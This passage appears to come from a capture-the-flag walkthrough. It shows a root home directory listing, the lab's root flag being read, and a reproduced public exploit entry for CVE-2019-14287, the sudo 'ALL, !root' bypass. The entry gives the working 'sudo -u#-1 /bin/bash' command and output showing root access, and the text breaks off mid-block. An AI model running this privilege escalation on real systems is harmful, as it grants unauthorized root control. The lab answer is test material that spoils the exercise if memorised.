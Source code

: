 ```bash
drwx------  5 root root 4096 Apr 20  2021 .
drwxr-xr-x 19 root root 4096 Apr 18  2021 ..
lrwxrwxrwx  1 root root    9 Apr 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 Apr 12  2021 .gnupg
drwxr-xr-x  3 root root 4096 Apr 12  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   10 Apr 18  2021 r00t.txt
-rw-r--r--  1 root root   66 Apr 19  2021 .selected_editor
drwx------  2 root root 4096 Apr 20  2021 .ssh
-rw-r--r--  1 root root  202 Apr 18  2021 .wget-hsts
-rw-------  1 root root   52 Apr 15  2021 .Xauthority
root@choc:~# cat r00t.txt 
inesbywal
```

## CVE-2019-14287

```bash
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
# Version : Sudo <1.8.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287

'''Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
```